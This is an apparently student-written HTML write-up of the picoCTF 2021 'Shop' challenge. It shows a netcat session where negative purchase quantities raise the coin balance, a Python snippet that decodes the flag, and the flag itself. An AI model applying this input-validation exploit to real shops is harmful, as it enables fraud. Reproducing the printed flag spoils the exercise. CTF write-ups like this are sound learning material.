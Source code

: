 <title>Shop-  picoctf2021</title>

<!DOCTYPE html>
<html>

<body>
    <h1>Shop-  picoctf2021</h1>

    <h2>Challenge Description</h2>
    <p> AUTHOR: THELSHELL

Description
Best Stuff - Cheap Stuff, Buy Buy Buy... Store Instance: source. The shop is open for business at nc mercury.picoctf.net 42159.
</p>
merge
    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
        we run nc and see that count  of items have no control on negative values so can choice -items and and increase coins of our wallet and buy flag with this options
    <p id="code1">
How many do you want to buy?
-2
You have 60 coins
        Item            Price   Count
(0) Quiet Quiches       10      14
(1) Average Apple       15      8
(2) Fruitful Flag       100     1
(3) Sell an Item
(4) Exit
Choose an option: 
0
How many do you want to buy?
-4
You have 100 coins
        Item            Price   Count
(0) Quiet Quiches       10      18
(1) Average Apple       15      8
(2) Fruitful Flag       100     1
(3) Sell an Item
(4) Exit
Choose an option: 
2
How many do you want to buy?
1
Flag is:  [112 105 99 111 67 84 70 123 98 52 100 95 98 114 111 103 114 97 109 109 101 114 95 55 57 55 98 50 57 50 99 125]
)
</p>
<pre>s="112 105 99 111 67 84 70 123 98 52 100 95 98 114 111 103 114 97 109 109 101 114 95 55 57 55 98 50 57 50 99 125"
d=""
for ch in s.split():
  d+=chr(int(ch))
print(d)
</pre>
    </ol> 
<br>
 
    <h2>Flag</h2>
    <p class="flag">picoCTF{b4d_brogrammer_797b292c}

</p>

    <h2>Conclusion</h2>
    <p>this is a very   easy chanllenge for  hack sample network shop and convert decimal arrays value to string</p>
</body>
</html>

